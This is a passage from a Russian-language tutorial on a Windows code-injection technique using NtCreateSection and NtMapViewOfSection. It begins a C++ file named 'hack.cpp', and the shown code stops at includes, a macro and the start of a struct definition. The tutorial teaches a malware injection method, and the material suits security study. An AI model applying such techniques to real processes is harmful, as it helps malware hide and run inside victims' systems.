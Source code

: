 Наконец, я использовал `ZwUnmapViewOfSection` для очистки:   

![code injection 9](./images/32/2021-12-15_18-25.png){width="80%"}    

![code injection 10](./images/32/2021-12-15_18-32.png){width="80%"}    

Итак, полный код, демонстрирующий эту технику, выглядит следующим образом:

```cpp
/*
 * hack.cpp
 * advanced code injection technique via 
 * NtCreateSection and NtMapViewOfSection
 * author @cocomelonc
 * https://cocomelonc.github.com/tutorial/
 2021/12/13/malware-injection-12.html
*/
#include <iostream>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

#pragma comment(lib, "ntdll")
#pragma comment(lib, "advapi32.lib")

#define InitializeObjectAttributes(p,n,a,r,s) { \
  (p)->Length = sizeof(OBJECT_ATTRIBUTES); \
  (p)->RootDirectory = (r); \
  (p)->Attributes = (a); \
  (p)->ObjectName = (n); \
  (p)->SecurityDescriptor = (s); \
  (p)->SecurityQualityOfService = NULL; \
}

// dt nt!_UNICODE_STRING
typedef struct _LSA_UNICODE_STRING {
```